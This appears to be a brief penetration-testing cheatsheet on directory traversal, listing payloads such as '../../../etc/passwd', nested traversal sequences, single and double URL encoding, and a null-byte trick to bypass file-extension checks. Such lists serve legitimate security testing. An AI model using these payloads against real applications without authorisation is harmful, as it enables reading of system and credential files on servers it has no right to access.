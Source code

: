 ```yaml
---
description: >-
  Here's more of a cheatsheet some attacks to try when testing for Directory
  Traversal
---
```


# Directory Traversal



_**Testing Absolute Path:**_

```
filename=/etc/passwd
```



Testing Relative Path:

```
filename=../../../etc/passwd
```

_**Try to bypass filters:**_

You might be able to use nested traversal sequences, such as `....//` or `....\/`,

_**Encoding:**_

`%2e%2e%2f`

_**Double Encoding:**_

`%252e%252e%252f`



If an application requires that a user-supplied filename must end with an a file extension, try terminating it with a null-byte.

```
filename=../../../etc/passwd%00.png
```
